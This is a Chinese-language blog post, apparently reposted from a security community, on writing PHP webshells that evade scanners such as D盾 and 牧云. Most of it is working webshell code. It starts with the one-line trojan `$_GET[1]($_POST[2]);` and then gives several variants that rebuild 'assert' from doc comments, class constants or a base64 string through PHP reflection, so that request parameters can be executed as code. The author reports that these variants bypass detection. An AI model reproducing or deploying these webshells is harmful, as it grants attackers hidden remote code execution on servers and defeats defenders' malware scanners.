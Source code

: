> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/79q74GJMbX-5OAf6W2wU9Q)

**前言**
======

`webshell`对于渗透测试者来说是既是一种结束也是一种开始；一个免杀的`webshell`是我们在渗透测试过程中能否拿到目标权限的一个 “前提”，首先 webshell 需要存活，其次是否能够执行命令，最后我们使用 webshell 管理工具时流量是否被拦截。所以免杀至关重要。  

我的第一个一句话木马
==========

很奇怪，我学习安全接触的的第一个一句话木马就是它：`$_GET[1]($_POST[2]);`，并且令我印象深刻。当时不太理解这个是因为 PHP 太灵活了，没想到还有这种写法：

```
$a = 'assert';
$a();
```

这个木马和上面的例子一样，是一种可变函数，`$_GET[1]`写为字符串`assert`，`$_POST[2]`写为命令`phpinfo()`。

*   值得一提的是 assert 和 eval：  
    手册写到 eval() 不是一个函数而是一个语言构造器，所以不能被可变函数调用；eval() 把字符串按照 PHP 代码来计算。该字符串必须是合法的 PHP 代码，**且必须以分号结尾**。  
    而 assert() 是一个函数，所以它相比 eval 灵活许多，可以被可变函数调用，也可以被回调函数来调用。  
    ## 思考  
    我们通过 webshell 执行命令，是通过我们可控的参数来达到目的，而上面的一句话木马我们可控的部分为 POST 和 GET 参数。只要稍作改变就可以绕过 D 盾的检测
    
    ```
    <?php
    foreach (array('_GET') as $_request) {
      foreach ($$_request as $_key=>$_value) {
          $$_key =  $_value;
          $_key($_value);
      }
    }
    ```
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNg4CPazzicib6V2dpxDfs5CO4b8rfzAyqF5dRssiaHP5Hnyo4E0eE5JiakQ/640?wx_fmt=png)
    
*   可以看到这里并没有达到免杀效果
    

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNsQjGc8icwXjzJRO7yAEN00ZmllxVeGCnC28licAn3m2KxmHJWHyyhvEg/640?wx_fmt=png)

*   接下来我又写了一个正常的类与函数，再次扫描发现 D 盾已经检测不出来了
    

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNzaevxrVfAxLHT7PxjmvOf1qgnSmibh5NLtT3hfMFaopKsib5PVkIPflA/640?wx_fmt=png)

从可变函数的例子我们可以受到一些启发，通过翻阅 PHP 手册中的**反射**部分，我们可以得到一些可以利用的函数

少见的函数
=====

获取注释
----

PHP 中有这样一个函数，它可以获取 php 注释的内容  
`public ReflectionClass::getDocComment( void) : string`  
某些查杀引擎在查杀的时候，会做类似于编译器的优化，去掉我们所写的注释。毕竟注释是不能运行的，如果我们将参数通过非常规的方式传输进来，这样或许可以绕过一些查杀引擎呢。我们知道，安全狗查形，D 盾查参，就拿 D 盾来试一试。

```
<?php

/**
* YXNzZXJ0YWE=
*/
class Example
{
    public function fn()
    {
    }
}

$reflector = new ReflectionClass('Example');

$zhushi = substr(($reflector->getDocComment()), 7, 12);
$zhushi = base64_decode($zhushi);
$zhushi = substr($zhushi, 0, 6);
//
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
        print_r($$_request);
    }
}
$zhushi($_value);
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNxt38tXIBOeJejUXoocN7WiaMKJiaSe20yibjNzCj6f8jtzwgHUoPM1Kuw/640?wx_fmt=png)

获取定义过的一个常量
----------

`public ReflectionClass::getConstants(void) : array`  
获取某个类的全部已定义的常量，不管可见性如何定义。

```
class Test
{
    const a = 'As';
    const b = 'se';
    const c = 'rt';

    public function __construct()
    {
    }
}
$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNj3gncia99OTXWvzDVBLKNNuRuyiahrXiadTKEmdh25yId8ib2Rs9Lkf5BA/640?wx_fmt=png)

获取一组常量
------

`public ReflectionClass::getConstants(void) : array`  
获取某个类的全部已定义的常量，不管可见性如何定义。

```
<?php

class Test
{
    const a = array(1=>'aS',2=>'se',3=>'rT');

    public function __construct()
    {
    }
}

$refl = new ReflectionClass('Test');

foreach ($refl->getConstants() as $key => $value) {
    foreach ($value as $key => $value1) {
        $value2.=$value1;
    }
}
foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}
$value2($_value);
```

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNMicdzyuPicoPD6RWYuoepKwZqdkPicwKicSmURarXBWhuxdqbckk8HHKibA/640?wx_fmt=png)

类与继承
----

P 牛的《PHP 动态特性的捕捉与逃逸》中提到了一个点，

![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavwEWtuia568TJib2YUQewP3dNic91JibPTaf7g4C2dDDMnbDSe50ialXtfD0EmuRS7WCNv8v3H4lWG02dA/640?wx_fmt=png)

除了 PPT 里提到的 trick，还能想到什么呢？

*   面向对象中，类能够继承类的属性与方法。或许可以从这两个点入手，因为测试绕过了 "牧云"，就暂时不放出来结果了。  
    至于为什么可以绕过：我的猜想是这个函数不在黑名单中，语法分析不够完善，引擎认为我们的 vuln 代码并不能执行。
    

![](https://mmbiz.qpic.cn/mmbiz_gif/bMyibjv83iavwEWtuia568TJib2YUQewP3dNgNCJ0JkzkpyBJAUN4iaLWP6uum4ZpUNwG2KFo3VOeNPcmHz7wXe0BLQ/640?wx_fmt=gif)

创建类的实例
------

`public ReflectionClass::newInstance( mixed $args[, mixed $...] ) : object`  
简单地说，这个方法可以创建一个类的实例，同时该函数传递的参数会传递到该类的构造函数  
需要注意的是，该方法传参和`call_user_func()`相似，不能使用引用类型传参，如果要使用引用类型使用另一个方法`newInstanceArgs`

```
class Test1
{
    public function __construct($para)
    {
        //assert
    }
}

$class1 = new ReflectionClass("Test1");
$para = '';
//可控的$para
$class2 = $class1->newInstance($para);
```

基本的框架就是这样了，对框架进行变形也可绕过 "牧云"。

![](https://mmbiz.qpic.cn/mmbiz_gif/bMyibjv83iavwEWtuia568TJib2YUQewP3dNepxINH8X3YDsfAAI5XYb31beVnPC1k3nLia1TXOAf0rwlRDrKIy6z8w/640?wx_fmt=gif)

作者：Isabellae ，转载于先知社区。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**